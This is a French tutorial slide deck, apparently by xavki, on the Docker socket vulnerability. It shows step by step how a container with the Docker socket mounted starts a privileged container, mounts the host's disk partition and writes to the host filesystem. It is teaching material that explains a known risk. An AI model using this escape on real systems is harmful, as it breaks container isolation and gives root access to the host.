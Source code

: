 %title: Docker
%author: xavki

# Docker : la faille de la socket / rootless



<br>


* faille de docker in docker ou de la socket docker

* socket 
		* port 2375 des machines docker (désactivé par défaut)
		* /var/run/

* monter la socket docker dans un conteneur (cf docker in docker DinD)

```
docker run -ti --restart unless-stopped --name dind -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/sh
```

* un coup d'oeil à l'extérieur de qui je suis

```
ps aux | grep "docker run"
```

et on se dit que tout va bien ??? j'ai un doute

* installons docker dans le conteneur

```
apt install docker.io
```

--------------------------------------------------------------------

# Docker : la faille de la socket

<br>


* et je me mets un petit conteneur pour faire mon curieux...

```
docker run -d --name root --privileged ubuntu sleep 60000
docker exec -ti root /bin/bash
```

* où suis-je ?

Host >> conteneur (docker) >> vous êtes ici !!!


<br>


* lister les partitions

```
fdisk -l
```

<br>


* monter la partition principale

```
mount /dev/dm-1 /mnt/
ls /mnt
touch /mnt/tmp/xavki.root
```

et c'est open-bar dans /mnt
